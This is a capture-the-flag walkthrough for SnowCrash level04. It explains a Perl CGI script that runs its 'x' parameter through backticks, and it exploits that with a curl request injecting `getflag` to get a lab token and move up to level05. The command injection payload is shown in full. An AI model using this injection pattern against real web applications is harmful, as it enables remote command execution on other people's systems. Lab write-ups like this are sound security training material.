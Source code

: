  # 1st Step
List the file with `ls -l` will show us :  
`-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl`  
***Notes** : Again, the owner of the file is `flag04` so the user `level04` can execute it as `flag04`*  
  
Let's execute it to see what's appening  
```
level04@SnowCrash:~$ ./level04.pl
Content-type: text/html


level04@SnowCrash:~$
```  
Nothing happened, we should take a look at the code inside  
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl                        # Indicates the path of the interpreter, like for bash (#!/bin/bash)
# localhost:4747                       # This program is executed from a web server hosted on local machine and reachable via the port 4747
use CGI qw{param};                     # In Perl, CGI(Common Gateway Interface) is a protocol for executing scripts via web requests
print "Content-type: text/html\n\n";   # Print the string when it's execute
sub x {                                # Define function 'x'
  $y = $_[0];                          # Variable 'y' take the value of the variable passed as parameter
  print `echo $y 2>&1`;                # Print variable 'y' ('2>&1' is for error handling)
}
x(param("x"));                         # Call function 'x'
```  
As we can see in the code above, it will print with `echo` the output of the command. In others terms it will print the value of the variable 'x' passed as parameter !  
-> Send a request to the script with [curl](https://curl.haxx.se/docs/manual.html) and supply it the parameter x=`getflag`  
```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
```  
level04 passed !  
  
***Notes** : We can also tape on a navigator "http://10.11.200.76:4747/?x=\`getflag\`"*
